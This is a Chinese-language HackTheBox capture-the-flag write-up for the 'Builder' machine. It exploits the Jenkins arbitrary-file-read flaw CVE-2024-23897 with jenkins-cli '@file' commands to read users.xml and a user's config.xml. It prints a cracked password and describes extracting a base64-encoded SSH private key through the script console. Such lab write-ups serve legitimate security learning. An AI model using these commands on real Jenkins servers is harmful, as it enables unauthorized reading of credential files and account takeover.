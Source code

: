 ```yaml
---
title: HackTheBox-Builder
date: 2025-4-7 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# nmap

![image-20250407102020194](Builder/image-20250407102020194.png)

# 8080端口

左下角有版本信息，搜索到该版本存在本地文件读取漏洞

![image-20250407112131730](Builder/image-20250407112131730.png)

## dirsearch

![image-20250407102039160](Builder/image-20250407102039160.png)

/api下还有一些目录，但都没有有用信息

![image-20250407112236007](Builder/image-20250407112236007.png)

## cve-2024-23897

先从靶机下载jar包

```
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

读取敏感目录，得到jenkins用户目录在`/var/jenkins_home`下

![image-20250407111931155](Builder/image-20250407111931155.png)

那么可以直接读取到user.txt

![image-20250407112551284](Builder/image-20250407112551284.png)

### 目录结构

![img](Builder/1850f94518a54a9cae64391e7440ef97.png)

![img](Builder/c46faf29e7954de881ea8a0d8c569c15.png)

#### user.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/users.xml"
```

![image-20250407114855940](Builder/image-20250407114855940.png)

#### /jennifer_12108429903186576833/config.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

![image-20250407114840670](Builder/image-20250407114840670.png)

![image-20250407114809848](Builder/image-20250407114809848.png)

```
jennifer:princess
```

#### 登录到jenkins

![image-20250407115846307](Builder/image-20250407115846307.png)

但是私钥还是隐藏的，在源码中发现了隐藏的私钥，是base64加密的

![image-20250407121222159](Builder/image-20250407121222159.png)

[jenkins：利用script console - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/376186.html)

该文章中有解密函数的使用，对该段进行解密即可得到私钥，使用私钥进行ssh连接，将权限设置为600，然后连接

![image-20250407130315077](Builder/image-20250407130315077.png)